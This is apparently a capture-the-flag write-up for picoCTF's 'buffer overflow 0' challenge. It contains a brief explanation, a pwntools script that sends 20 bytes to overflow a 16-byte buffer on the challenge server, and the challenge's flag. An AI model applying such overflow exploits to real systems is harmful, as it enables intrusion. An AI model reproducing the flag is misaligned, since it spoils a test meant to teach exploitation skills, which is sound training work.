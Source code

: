 # buffer overflow 0

Smash the stack Let's start off simple, can you overflow the correct buffer?  [vuln](./vuln.c).

Author: Alex Fulton / Palash Oswal

100 Points

---
## Solution

Very simple buffer overflow. The buffer is of size 16, so we will pass it size 20 to overwrite the return address as well which triggers the condition to print out flag.

Exploit can be found in [exploit.py](./exploit.py):
```Python
#!/usr/lib/python3
from pwn import *

io = remote("saturn.picoctf.net", 63397)
# io = process("./vuln")
buffer = b"A" * 20
io.sendline(buffer)
output = io.recvline()
print(output.decode())
io.close()
```

---
## Flag
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}
```